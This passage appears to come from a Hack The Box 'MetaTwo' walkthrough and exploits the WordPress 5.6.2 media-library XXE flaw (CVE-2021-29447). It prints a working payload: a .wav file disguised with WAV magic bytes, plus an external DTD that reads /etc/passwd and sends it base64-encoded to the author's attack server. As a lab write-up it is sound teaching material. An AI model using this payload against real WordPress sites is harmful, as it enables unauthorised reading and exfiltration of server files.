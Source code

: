 ## XXE
Once logged in, I poke around for awhile before checking for vulnerabilities in this version of WordPress, 5.6.2. I find a very interesting vulnerability report from [WPSec](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/) That involves an XML External Entity (XXE) attack via a malicious `.wav` file, which is an audio file. Very interesting. The linked blog post goes into great detail about the vulnerability and I would recommend giving it a read.

To exploit this vulnerability I need to create 2 files. The first one is `payload.wav`. I use the command from he blog post, replacing their IP with mine. This file starts with the [magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) of a `.wav` file, followed by an XML body with an XXE payload. This should trick any MIME type checks. As you can see, running `file` on it shows that it is a WAVE audio file.
```bash
┌──(kali㉿Kali)──[23:16:32]──[~/htb/Machines/MetaTwo]
└─$ echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.78:8001/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav

┌──(kali㉿Kali)──[23:16:46]──[~/htb/Machines/MetaTwo]
└─$ file payload.wav                                 
payload.wav: RIFF (little-endian) data, WAVE audio

```
The XXE payload will reach back to my server for a `.dtd` file. A `.dtd` (Document Type Definition) file is used to define the structure, elements, and attributes of an XML file, it's essentially a blueprint, ensuring the XML file adheres to a specified format and rules. 

I now need to create that `.dtd` file, once again modifying the IP and port:
```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.78:8001/?p=%file;'>" >
```
I start a webserver on port 8001 in the same location as the `.dtd` file, and upload my `payload.wav` to the site. I get back a long string of base64, which decodes into the `/etc/passwd` file. Success!

![upload](Wed-10-2024_23-29.png)
